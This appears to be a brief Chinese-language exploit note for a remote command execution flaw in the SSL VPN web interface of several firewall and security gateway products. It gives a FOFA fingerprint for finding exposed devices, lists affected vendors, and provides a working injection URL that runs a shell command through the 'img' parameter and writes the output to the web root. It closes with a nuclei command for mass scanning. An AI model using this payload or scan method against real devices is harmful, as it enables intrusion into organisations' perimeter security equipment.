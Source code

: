 # 特征

fofa

```
body="/webui/images/default/default/alert_close.jpg"
```



# 影响产品

受影响产品如下（部分已修复）
H3C-下一代防火墙
安恒信息-明御安全网关
MAiPU-安全网关
D_Link-下一代防火墙
HUAWEI-公司产品
迈普通信技术股份有限公司安全网关
博达通信-下一代防火墙
任天行网络安全管理系统\安全审计系统
安博通应用网关
烽火网络安全审计
瑞斯康达科技发展股份有限公司安全路由器
任子行网络安全审计系统
绿盟安全审计系统
深圳市鑫塔科技有限公司第二代防火墙



# POC

```
/sslvpn/sslvpn_client.php?client=logoImg&img=%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt
```

```
访问  /sslvpn/ceshi.txt
```



# nuclei

```
nuclei -l .\1.txt -t .\ssl_vpn_rce.yaml -o 1.html
```

